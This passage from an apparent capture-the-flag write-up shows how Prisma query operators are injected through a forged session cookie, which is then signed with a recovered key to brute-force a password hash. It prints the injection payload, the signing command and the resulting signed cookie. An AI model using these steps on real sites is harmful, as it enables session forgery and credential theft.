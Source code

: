 `findFirst` just checks whether the query matches our criteria:

{% embed url="https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#findfirst" %}

### Blind Injection --> Cookie Monster Brute Force

Here are the facts so far and my deductions:

* `.sig` , the key I found and how the token is structured --> Definitely need to use Cookie Monster somehow.
* User is `wesley`, and hashes are unsalted and used directly for authentication --> Brute force is theoretically possible if done smartly.
* There's a SQL query that is 100% injectable, but I don't know how to exploit it at this point.
* The cookie is not validated in any way, it takes my input directly. It checks whether a `true` condition is returned from `findFirst` from the `prisma` API module --> Blind Injection based on where it redirects us?&#x20;

Based on the facts above, there should be a method of which we can brute force the hash using a smartly created user cookie that is signed through Cookie Monster.&#x20;

Since this uses `prisma` client API, we can try to inject some commands from that module based on their nested JSON queries possible.

{% embed url="https://www.prisma.io/docs/concepts/components/prisma-client/working-with-fields/working-with-json-fields#advanced-example-update-a-nested-json-key-value" %}

&#x20;I tried to use `contains` first in this cookie:

```
{"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":"a"}}}
```

Then, I signed the cookie required:

```
$ ./cookie-monster.js -e -f ../cookie.json -k 8929874489719802418902487651347865819634518936754 -n download_session
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /

[+] Data Cookie: download_session=eyJ1c2VyIjp7InVzZXJuYW1lIjp7ImNvbnRhaW5zIjoiV0VTTEVZIn19fQ==                                                                                            
[+] Signature Cookie: download_session.sig=v0PDQv1xMVxi-N8hRUHd2B___z4
```

Using these parameters on the website returned the `/home` directory with response that looks like it works:

<figure><img src="../../.gitbook/assets/image (4145).png" alt=""><figcaption></figcaption></figure>
